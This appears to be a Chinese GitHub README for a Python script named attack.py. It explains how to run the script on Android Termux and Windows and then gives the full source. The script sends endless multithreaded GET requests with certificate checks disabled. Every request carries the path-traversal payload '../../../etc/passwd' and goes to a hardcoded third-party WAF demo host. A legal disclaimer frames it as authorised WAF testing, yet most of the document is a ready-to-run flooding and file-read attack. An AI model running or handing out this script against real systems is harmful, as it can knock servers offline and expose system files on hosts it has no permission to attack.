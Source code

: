 # ⚠️ 高频 HTTP 请求测试脚本（含潜在攻击行为）
> [!CAUTION]
> 🚨 **危险警告：请勿非法使用！**
>
> 本脚本用于测试 WAF 防护、路径穿越检测等，仅限在授权环境中使用。
> 
> ⚠️ **如你对未授权站点执行此代码，可能构成违法攻击行为。**
>
> - 本代码仅供学习、研究与授权测试使用
> - 如有非法用途，后果自负，作者与平台概不负责！

>[日志](https://demo.waf-ce.chaitin.cn:9443/report_preview?id=285)
---

## 🧠 脚本简介

该 Python 脚本使用多线程方式高频访问目标 URL，模拟路径遍历攻击请求（示例 payload 为 `../../../etc/passwd`），用于测试 Web 防火墙（WAF）对恶意参数的拦截与响应能力。

---

## 🖥️ 使用教程

本脚本支持在 **Windows 环境** 和 **Android Termux** 环境下运行。

---

### 📱 Termux 使用教程（Android 手机）

1. 打开 Termux，更新源和安装环境：

    ```bash
    pkg update && pkg upgrade
    pkg install python git
    pip install requests
    ```

2. 创建一个新脚本文件 `attack.py`：

    ```bash
    nano attack.py
    ```

3. 将下方完整脚本复制粘贴进去，按 `Ctrl+X` → `Y` → 回车 保存退出。

4. 运行脚本：

    ```bash
    python attack.py
    ```

---

### 🪟 Windows 使用教程

1. 安装 [Python 官网版本](https://www.python.org/downloads/windows/)
    - 安装时勾选 “Add Python to PATH”
    - 安装后打开命令提示符 `cmd`

2. 安装依赖库：

    ```bash
    pip install requests
    ```

3. 保存以下代码为 `attack.py` 文件。

4. 双击运行或使用命令：

    ```bash
    python attack.py
    ```

---

## 💻 脚本源码（attack.py）

```python
import requests
import threading
import time
import os
import urllib3

# 忽略 HTTPS 证书警告
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# 目标信息
TARGET_URL = "https://demo.waf-ce.chaitin.cn:10084/hello.html"
PAYLOAD = "../../../etc/passwd"

# 请求参数配置
PARAMS = {
    "payload": PAYLOAD
}
HEADERS = {
    "User-Agent": "WAF-Test-Agent/1.0",
    "Referer": "https://demo.waf-ce.chaitin.cn/"
}

# 自动识别线程数（等于 CPU 核心 * 2）
THREAD_COUNT = os.cpu_count() * 2
print(f"[*] 启用线程数：{THREAD_COUNT}")

# 是否持续攻击
CONTINUOUS_ATTACK = True  # 设置为 False 可控制是否持续运行

# 单线程攻击逻辑
def attack_loop(thread_id):
    count = 0
    while CONTINUOUS_ATTACK:
        try:
            response = requests.get(TARGET_URL, headers=HEADERS, params=PARAMS, timeout=3, verify=False)
            count += 1
            print(f"[线程 {thread_id}] 状态码: {response.status_code}，请求数: {count}")
        except Exception as e:
            print(f"[线程 {thread_id}] 错误: {e}")

# 启动所有线程
def start_attack():
    threads = []
    for i in range(THREAD_COUNT):
        t = threading.Thread(target=attack_loop, args=(i + 1,))
        t.start()
        threads.append(t)

    for t in threads:
        t.join()

if __name__ == "__main__":
    print("[*] 持续攻击开始，按 Ctrl+C 停止")
    start_attack()